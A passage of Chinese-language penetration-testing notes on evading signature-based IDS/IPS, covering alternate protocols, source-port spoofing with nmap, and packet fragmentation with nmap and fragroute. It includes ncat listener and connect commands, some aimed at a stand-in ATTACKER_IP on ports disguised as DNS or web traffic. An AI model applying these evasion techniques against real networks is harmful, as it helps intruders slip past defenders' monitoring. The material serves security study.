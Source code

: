
**重要提示**: 基于特征的 IDS/IPS 的检测能力高度依赖于其签名（规则）的编写质量和更新频率。如果攻击者对载荷进行微小修改（例如，不直接使用明文 `ncat`），就可能绕过简单规则的检测。

---

#### 规避 IDS/IPS 的通用方法 (General Methods for Evading IDS/IPS)

绕过基于特征的 IDS/IPS 的核心思想是操纵流量，使其不与任何已知签名匹配。攻击者可以从以下四个主要方向考虑规避策略：

1. **通过协议操作进行规避 (Evasion via Protocol Manipulation)**
2. **通过有效载荷操作实现规避 (Evasion via Payload Manipulation)**
3. **通过路由操纵进行规避 (Evasion via Route Manipulation)**
4. **通过战术拒绝服务 (DoS) 进行规避 (Evasion via Tactical Denial of Service)**

---

#### 1. 通过协议操作进行规避 (Evasion via Protocol Manipulation)

##### 1.1. 依赖不同协议 (Relying on Different Protocols)

- **原理**: IDS/IPS 可能针对特定协议配置了严格的检测规则，而对其他协议则相对宽松。攻击者可以尝试利用允许或监控较少的协议来传输恶意流量或窃取数据。
- **策略**:
    - 使用 UDP 代替 TCP。
    - 利用 HTTP/HTTPS 隧道承载其他协议的流量（例如 DNS over HTTPS）。
    - 根据目标环境允许的应用程序（如允许访问 Google 服务）来选择 C2 通道。
- **示例**:
    - 如果目标 IPS 严格限制外部 DNS 查询 (UDP/53) 和明文 HTTP (TCP/80)，但对 HTTPS (TCP/443) 较为宽松，则通过 HTTPS 隧道传输数据是一种可行的规避手段。
    - 使用 Ncat 时，默认使用 TCP。通过添加 `-u` 选项可以切换到 UDP。
        - TCP 监听: `ncat -lvnp PORT_NUM`
        - TCP 连接: `ncat TARGET_IP PORT_NUM`
        - UDP 监听: `ncat -ulvnp PORT_NUM`
        - UDP 连接: `ncat -u TARGET_IP PORT_NUM`
    - 将 Ncat 监听在常见服务端口以混淆视听（需 IDS/IPS 无深度包检测或配置不当）：
        - `ncat -lvnp 25` (伪装成 SMTP TCP 服务)
        - `ncat -ulvnp 162` (伪装成 SNMP UDP 服务)

##### 1.2. 操控 (源) TCP/UDP 端口 (Manipulating (Source) TCP/UDP Ports)

- **原理**: 许多基础安全方案在没有深度包检测 (DPI) 的情况下，会依赖端口号来初步判断流量的服务类型。攻击者可以通过修改其工具使用的源端口，使其流量看起来像是来自合法的、常见的服务端口。
- **工具与选项**:
    - **Nmap**: 使用 `-g PORT_NUMBER` 或 `--source-port PORT_NUMBER` 选项指定源端口。
        - TCP SYN 扫描，源端口 80 (伪装 HTTP): `nmap -sS -Pn -g 80 -F TARGET_IP`
        - UDP 扫描，源端口 53 (伪装 DNS): `nmap -sU -Pn -g 53 -F TARGET_IP`
    - **Ncat**: 监听在标准端口。
        - 攻击者监听 UDP 53 (伪装 DNS 服务器): `ncat -ulvnp 53`
        - 目标连接: `ncat -u ATTACKER_IP 53`
        - 攻击者监听 TCP 80 (伪装 Web 服务器): `ncat -lvnp 80`
        - 目标连接: `ncat ATTACKER_IP 80`

##### 1.3. 使用会话拼接 (IP 数据包分片) (Using Session Splicing - IP Packet Fragmentation)

- **原理**: 将攻击载荷分散到多个小的 IP 数据包（分片）中。如果 IDS/IPS 没有正确地重组所有分片并进行分析，那么包含恶意特征的完整字节流可能不会在单个数据包中出现，从而可能绕过基于签名的检测。
- **工具与选项**:
    - **Nmap**:
        - `-f`: 将数据分片为 8 字节的 IP 片段。
        - `-ff`: 将数据分片为 16 字节的 IP 片段。
        - `--mtu SIZE`: 自定义分片大小 (必须是 8 的倍数)。
    - **Fragroute**: 更专业的流量分片工具。
        - 创建配置文件 (例如 `fragroute.conf`) 包含规则如 `ip_frag 16` (数据分片不超过 16 字节)。
        - 运行命令: `fragroute -f fragroute.conf HOST_IP`
